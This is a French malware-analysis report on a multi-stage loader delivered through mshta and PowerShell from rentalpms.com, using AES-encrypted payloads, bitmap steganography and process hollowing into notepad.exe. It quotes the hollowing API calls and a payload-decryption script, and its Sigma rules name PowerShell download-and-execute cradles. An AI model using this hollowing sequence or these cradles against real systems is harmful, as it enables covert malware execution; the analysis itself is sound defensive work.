


La très longue chaîne encodée est déchiffrée afin de produire une variable `text`, ensuite transmise au compilateur `C#` via `CSharpCodeProvider`. Le programme demande explicitement une compilation en mémoire grâce au paramètre `GenerateInMemory = true`, ce qui signifie qu’aucun fichier exécutable intermédiaire n’a besoin d’être écrit sur le disque.

Une fois la compilation terminée, le code récupère dans l’assembly généré :
- un type déterminé dynamiquement : `GetType` ;
- puis une méthode au sein de ce type : `GetMethod` ;
- enfin, il invoque cette méthode à l’aide de `Invoke()`.
 
 

Cette dernière étape met en évidence un mécanisme d’exécution dynamique furtif. Après avoir chargé une ressource embarquée, extrait des données depuis une image bitmap puis déchiffré leur contenu, le programme restaure ici un code source C# obfusqué, le compile directement en mémoire et exécute une méthode obtenue dynamiquement.

### Déchiffrement de chaînes de caractères

Le pivot sur la fonction `paSOuzDV[...]` permet de découvrir le mécanisme de déchiffrement des chaînes :



La fonction prend en paramètre une chaîne encodée en **Base64**, ainsi qu’une clé et un vecteur d’initialisation. Le contenu est d’abord converti en tableau d’octets au moyen de `Convert.FromBase64String()`, puis transmis à la routine de déchiffrement AES précédemment identifiée. Le résultat déchiffré est enfin converti en texte via `Encoding.UTF8.GetString(...)`.

## Process hollowing via notepad.exe

La récupération des constantes **key** et **IV** ont permis de reconstruire le code malveillant C# et ainsi de confirmer que le binaire malveillant agit comme un loader/injecteur C#.

### Reconstruction du code C#

Le script python suivant à permis la reconstruction du code malveillant C# embarqué : 

```python
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Clé AES (key) et vecteur d'initialisation (IV)
key = b"censored"
iv = b"censored"

# Chaîne chiffrée (encodée en Base64) contenant le code C# obfusqué
encrypted_b64 = "censored"

# Décodage Base64
data = base64.b64decode(encrypted_b64)

# Initialisation du chiffreur AES en mode CBC
cipher = AES.new(key, AES.MODE_CBC, iv)

# Déchiffrement des données
decrypted = cipher.decrypt(data)

# Suppression du padding PKCS7
plaintext = unpad(decrypted, AES.block_size)

# Conversion des octets en chaîne UTF-8
source = plaintext.decode("utf-8")

# Affichage du code récupéré dans la console
print(source)

# Écriture du code dans un fichier
with open("payload_reconstitue.malicious", "w", encoding="utf-8") as f:
    f.write(source)
```

### Analyse du code C#

L’analyse du code C# reconstruit met en évidence une implémentation complète de la technique de **process hollowing**, également appelée **RunPE**. Cette technique consiste à détourner un processus légitime afin d’y exécuter une charge malveillante à sa place, tout en conservant son apparence extérieure.

Dans l’échantillon étudié, cette logique est implémentée dans la méthode suivante :

```C#
public static void Red(string path, byte[] data)
```

Dans cette méthode,
- `path` correspond au processus cible légitime ;
- `data` correspond à la charge utile au format PE.


L’initialisation de la valeur `path` apparaît dans le constructeur statique :

```C#
KVEcVaRp[...].KUKftrqm[...] = vjvwarKV[...].paSOuzDV[...](
    "jVFy/foiaaaFDqD4TP2DLFBq7pf1WTMgt0yE1FE7vOo=",
    KVEcVaRp[...].lGtrMIaO[...],
    KVEcVaRp[...].oQTvbPvw[...]
);
```

Après simplification, cette instruction peut être réécrite sous la forme suivante :

```C#
KUKftrqmnNJi... = paSOuzDV(
    "jVFy/foiaaaFDqD4TP2DLFBq7pf1WTMgt0yE1FE7vOo=",
    key,
    iv
);
```

La fonction `paSOuzDV[...]` applique un décodage Base64 suivi d’un déchiffrement AES-CBC, ce qui permet de reconstruire la chaîne en clair. Le résultat obtenu est :

`C:\Windows\System32\notepad.exe`

Cette valeur est ensuite transmise comme argument `path` à la méthode `Red(string path, byte[] data)`, confirmant que le processus cible utilisé pour l’injection est bien notepad.exe.

### Étapes concrètes du process hollowing 

La première étape est la création d'un processus cible dans un état suspendu.

```C#
CreateProcess(null, path, IntPtr.Zero, IntPtr.Zero, true, 0x4u, IntPtr.Zero, null, ref si, ref pi);
``` 

`CreateProcess` permet la création de notepad.exe dans un état suspendu grâce au paramètre `0x4u`, correspondant au flag **CREATE_SUSPENDED**.

La deuxième étape est la suppression de l'image mémoire légitime de **notepad.exe** :

```C#
ZwUnmapViewOfSection(pi.ProcessHandle, imageBase);
```
Ainsi, **notepad.exe** est toujours en cours d'exécution mais son code original a été vidé.

La troisème étape est l'injection du binire malveillant grâce à l'injection injection 
- des en-têtes

```C#
WriteProcessMemory(pi.ProcessHandle, imageBase, data, sizeOfHeaders, 0L);
```
- des sections

```C#
WriteProcessMemory(pi.ProcessHandle, imageBase + virtualAddress, bRawData, bRawData.Length, 0L);
``` 
Ainsi, le logiciel malveillant reconstruit l’intégralité du fichier exécutable en mémoire dans le processus cible.

Enfin le thread principal est modifié et l'exécution redirigée afin de permettre le relancement du threat modifié : 

```C#

// Modification du thread principal 

GetThreadContext(pi.ThreadHandle, pThreadContext);

// Redirection de l'exécution 
    Marshal.WriteInt64(pThreadContext, 0x80, imageBase +entryPoint);
    SetThreadContext(pi.ThreadHandle, pThreadContext);

// Reprise de l'exécution
    ResumeThread(pi.ThreadHandle);
    Marshal.FreeHGlobal(pThreadContext);
    CloseHandle(pi.ProcessHandle);
    CloseHandle(pi.ThreadHandle);
```

L’ensemble de ces éléments permet d’identifier sans ambiguïté une implémentation de la technique de process hollowing (également appelée RunPE) pour injecter une charge malveillante dans le processus légitime `notepad.exe`.

1. création d’un processus suspendu
2. suppression de son image mémoire
3. injection d’un exécutable malveillant
4. redirection du flux d’exécution. 

Dans ce cas précis, le processus cible est **notepad.exe**, choisi car :
- il est légitime et signé par Microsoft ;
- il est fréquemment présent et peu suspect ;
- il permet de masquer l’exécution malveillante derrière un processus de confiance.

## Conclusion sur le payload exécuté en mémoire 

Au regard des éléments observés, ce binaire peut être qualifié de **loader .NET obfusqué**. Son rôle principal n’est pas d’implémenter directement les fonctionnalités malveillantes finales, mais de déployer, reconstruire et exécuter une charge utile secondaire en mémoire, tout en limitant au maximum les artefacts persistants sur le système.

L’analyse met en évidence une chaîne d’exécution en plusieurs phases combinant différentes techniques d’obfuscation et d’évasion :

- dissimulation de données dans une image bitmap (stéganographie) ;
- déchiffrement de contenu via AES ;
- reconstruction dynamique de code C# suivie d’une compilation en mémoire (CSharpCodeProvider) ;
- injection de la charge utile dans un processus légitime via la technique de process hollowing (notepad.exe).



Aucun indicateur réseau explicite, ni aucun C2 n’apparaissent dans le loader analysé. Cela suggère que la logique de communication réseau est portée par la charge finale injectée, et non par le chargeur initial.

# Conclusion 

L’analyse met en évidence une chaîne d’infection en plusieurs étapes, conçue pour limiter au maximum la visibilité du code malveillant et complexifier son analyse. 


L’accès initial repose sur l’utilisation de `mshta.exe` pour exécuter un faux fichier `MSIX`, qui agit en réalité un conteneur **HTML/VBScript**. Ce premier composant a pour unique objectif de lancer discrètement PowerShell via WMI afin de télécharger et d’exécuter en mémoire une charge de deuxième étape depuis `rentalpms.com`.

Cette deuxième étape PowerShell agit comme un chargeur fileless : elle décode une clé et un vecteur d’initialisation stockés en Base64, déchiffre un payload .NET chiffré en AES, puis le charge directement en mémoire au moyen de `Assembly.Load`, sans écriture sur disque. 

L’analyse de ce payload met en évidence un loader .NET fortement obfusqué, combinant plusieurs techniques avancées :
- chiffrement des chaînes et du code ;
- compilation dynamique de code C# ;
- dissimulation de données au sein d’une image bitmap.

Le code C# finalement reconstruit en mémoire met en œuvre une technique de **process hollowing** visant à injecter une charge malveillante dans `notepad.exe`, processus légitime utilisé comme hôte afin de masquer l’exécution de la charge finale. 

Ce fonctionnement confirme que le binaire malveillant étudié n’embarque pas directement les capacités opérationnelles malveillantes, mais agit comme un **loader en plusieurs étapes**, chargé de livrer, reconstruire et exécuter une charge secondaire de manière furtive.



Aucun indicateur de commande et contrôle explicite n’a été identifié dans ce loader. Cela suggère que les fonctionnalités réseau et les communications avec une infrastructure de commande et de contrôle sont portées par la charge utile finale, et non par le chargeur initial.

Enfin, en raison du choix d’une approche exclusivement statique, la charge utile finale injectée en mémoire n’a pu être extraite. Le code analysé permet néanmoins d’identifier avec précision le mécanisme de reconstruction et d’injection du payload (process hollowing), tout en mettant en évidence une architecture typique utilisée dans des campagnes modernes de distribution de malwares.

Les éléments observés présentent des similarités avec des familles de stealer telles que Vidar ou LummaStealer, bien que les techniques et infrastructures relevées soient également compatibles avec certaines campagnes associées à Rhadamanthys. En l’absence d’analyse dynamique du payload final, une attribution formelle ne peut toutefois pas être établie.

# Pistes de prévention

## Réduction de la surface de compromission 

* Bloquer ou restreindre l'utilisation de **mshta.exe**, notamment pour l'exécution de contenu provenant d'Internet
* Restreindre l’exécution de PowerShell pour les utilisateurs standards (via AppLocker ou WDAC)
* Désactiver ou limiter l’exécution de scripts non signés (ExecutionPolicy)

## Mise en détection 

* Détecter les exécutions anormales de **mshta.exe** (depuis Internet ou fichiers temporaires)
* Mettre en place des règles de détection sur les commandes PowerShell suspectes, des commandes contenant notamment la requête `powershell -c iex iwr`

Ces règles de Florian Roth sont très complètes et ne demandent qu'à être adaptées pour votre système d'information :

```YAML
title: Suspicious MSHTA Child Process
id: 03cc0c25-389f-4bf8-b48d-11878079f1ca
status: test
description: Detects a suspicious process spawning from an "mshta.exe" process, which could be indicative of a malicious HTA script execution
references:
    - https://www.trustedsec.com/july-2015/malicious-htas/
author: Michael Haag
date: 2019-01-16
modified: 2023-02-06
tags:
    - attack.defense-evasion
    - attack.t1218.005
    - car.2013-02-003
    - car.2013-03-001
    - car.2014-04-003
logsource:
    category: process_creation
    product: windows
detection:
    selection_parent:
        ParentImage|endswith: '\mshta.exe'
    selection_child:
        - Image|endswith:
              - '\cmd.exe'
              - '\powershell.exe'
              - '\pwsh.exe'
              - '\wscript.exe'
              - '\cscript.exe'
              - '\sh.exe'
              - '\bash.exe'
              - '\reg.exe'
              - '\regsvr32.exe'
              - '\bitsadmin.exe'
        - OriginalFileName:
              - 'Cmd.Exe'
              - 'PowerShell.EXE'
              - 'pwsh.dll'
              - 'wscript.exe'
              - 'cscript.exe'
              - 'Bash.exe'
              - 'reg.exe'
              - 'REGSVR32.EXE'
              - 'bitsadmin.exe'
    condition: all of selection*
falsepositives:
    - Printer software / driver installations
    - HP software
level: high
```

```YAML
title: PowerShell Download and Execution Cradles
id: 85b0b087-eddf-4a2b-b033-d771fa2b9775
status: test
description: Detects PowerShell download and execution cradles.
references:
    - https://github.com/VirtualAlllocEx/Payload-Download-Cradles/blob/88e8eca34464a547c90d9140d70e9866dcbc6a12/Download-Cradles.cmd
    - https://labs.withsecure.com/publications/fin7-target-veeam-servers
author: Florian Roth (Nextron Systems)
date: 2022-03-24
modified: 2025-07-18
tags:
    - attack.execution
    - attack.t1059
logsource:
    product: windows
    category: process_creation
detection:
    selection_download:
        CommandLine|contains:
            - '.DownloadString('
            - '.DownloadFile('
            - 'Invoke-WebRequest '
            - 'iwr '
            - 'Invoke-RestMethod '
            - 'irm '  # powershell -ep bypass -w h -c irm test.domain/ffe | iex
    selection_iex:
        CommandLine|contains:
            - ';iex $'
            - '| IEX'
            - '|IEX '
            - 'I`E`X'
            - 'I`EX'
            - 'IE`X'
            - 'iex '
            - 'IEX ('
            - 'IEX('
            - 'Invoke-Expression'
    condition: all of selection_*
falsepositives:
    - Some PowerShell installers were seen using similar combinations. Apply filters accordingly
level: high

```

# IOC

| Horodatage       | Nature  | Valeur                 |
| ---------------- | ------- | ---------------------- |
| 2026/01/27 09:47 | IP      | 104.0xA4.55[.]96       |
| 2026/01/27 09:47 | IP      | 104.164.55[.]96        |
| 2026/01/27 09:47 | Fichier | fetch.msix             |
| 2026/01/27 09:47 | URL     | http://rentalpms[.]com |
